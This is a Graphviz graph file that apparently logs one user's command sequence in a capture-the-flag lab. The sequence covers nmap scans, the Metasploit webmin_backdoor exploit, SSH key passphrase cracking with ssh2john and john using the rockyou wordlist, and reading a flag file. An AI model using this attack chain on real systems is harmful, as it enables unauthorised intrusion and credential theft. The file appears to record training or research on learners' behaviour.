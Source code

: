 // creating graph for user: 70
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 -p 10000 M0 "]
	3 [label="ls A10 "]
	5 [label="ls A10 "]
	11 [label="msfconsole M2 "]
	13 [label="msfconsole M2 "]
	14 [label="use unix/webapp/webmin_backdoor M4 "]
	16 [label="show options M5 "]
	17 [label="set RHOSTS 172.18.1.5 M6 "]
	18 [label="exploit M8 "]
	20 [label="set LHOST 192.168.131.85 M6 "]
	21 [label="exploit M8 "]
	27 [label="nmap 172.18.1.1/24 A0 A1 "]
	28 [label="nmap 10.0.1.1/24 A0 A1 "]
	29 [label="nmap 10.1.0.1/24 A0 A1 "]
	30 [label="nmap 100.100.100.1/24 A0 A1 "]
	31 [label="msfconsole M2 "]
	32 [label="use unix/webapp/webmin_backdoor M4 "]
	33 [label="set LHOST 192.168.131.85 M6 "]
	34 [label="nmap 172.168.1.1/24 A0 A1 "]
	35 [label="nmap 172.18.1.1/24 A0 A1 "]
	36 [label="set RHOSTS 172.18.1.5 M6 "]
	37 [label="nmap 10.1.0.1/24 A0 A1 "]
	38 [label="exploit M8 "]
	39 [label="show options M5 "]
	41 [label="exploit M8 "]
	43 [label="nmap 10.1.17.4 A0 A1 "]
	45 [label="chmod 600 key.txt M15 "]
	46 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	47 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	48 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	49 [label="ls A10 "]
	50 [label="./ssh2john.py A14 A16 "]
	51 [label="./ssh2john.py key.txt A14 A16 "]
	52 [label="./ssh2john.py key.txt > sshjohn.txt A14 A16 "]
	53 [label="ls A10 "]
	54 [label="man john A14 "]
	55 [label="john --single sshjohn.txt A14 A16 "]
	56 [label="john --show sshjohn.txt A5 A14 A16 "]
	57 [label="john --single sshjohn.txt A14 A16 "]
	58 [label="john --show sshjohn.txt A5 A14 A16 "]
	59 [label="john -i sshjohn.txt M16 "]
	60 [label="john --incremental sshjohn.txt M16 "]
	61 [label="ls A10 "]
	64 [label="john --wordlist /usr/share/wordlists/rockyou.txt sshjohn.txt M14 "]
	65 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	66 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	67 [label="ls A10 "]
	69 [label="ls A10 "]
	70 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 3 [constraint=false]
	3 -> 5 [constraint=false]
	5 -> 11 [constraint=false]
	11 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 41 [constraint=false]
	41 -> 43 [constraint=false]
	43 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	rankdir=LR
}
